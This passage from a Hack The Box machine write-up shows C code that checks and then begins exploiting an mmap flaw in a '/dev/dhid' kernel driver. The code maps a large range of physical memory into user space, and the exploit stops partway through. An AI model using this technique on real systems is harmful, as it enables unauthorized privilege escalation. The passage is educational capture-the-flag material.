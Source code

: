 ~~~~c
    return -1;
  }
  printf("[+] mmap OK addr: 0x%p\n", addr);
  close(fd);

  return 0;
}
~~~~

Let's do a sanity check with safe values.


{% include image.html image_alt="900cffae.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/900cffae.png" %}


Look at the mapped address.


{% include image.html image_alt="61eab7aa.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/61eab7aa.png" %}


Compare this to a vulnerability check with unsafe values.


{% include image.html image_alt="391721f0.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/391721f0.png" %}


Now, look at the mapped address.


{% include image.html image_alt="90a5cc24.png" image_src="/5c05301f-9f98-407d-be22-6e29559ab628/90a5cc24.png" %}


#### Writing the Exploit

One thing that's working our way is the fact that the physical address to remap to user address is the same as the offset, which is `0x0`. Coupled with a large map size, we are mapping almost the entire system memory.

Taking a leaf from this excellent [whitepaper](https://labs.mwrinfosecurity.com/assets/BlogFiles/mwri-mmap-exploitation-whitepaper-2017-09-18.pdf), I re-purposed the C code above to this.

~~~~c
#include <sys/types.h>                                          
#include <sys/stat.h>                                           
#include <sys/mman.h>                                           
#include <fcntl.h>                                              
#include <stdio.h>                                              
#include <unistd.h>                                             

int main(int argc, char *argv[]) {                              

  printf("[+] PID: %d\n", getpid());                            

  int fd = open("/dev/dhid", O_RDWR);                           
  if (fd < 0) {                                                 
    printf("[-] Open failed!\n");                               
    return -1;                                                  
  }                                                             
  printf("[+] Open OK fd: %d\n", fd);                           

  char buf[100];                                                
  read(fd, buf, 48);                                            
  printf("[+] Message: %s\n", buf);                             

  unsigned long size   = 0xf0000000;                            
  unsigned long start  = 0x42424000;                            
  unsigned long offset = 0x0;                                   
~~~~

[1]: https://www.hackthebox.eu/home/machines/profile/191
[2]: https://www.hackthebox.eu/home/users/profile/1963
[3]: https://www.hackthebox.eu/home/users/profile/11652
[4]: https://www.hackthebox.eu/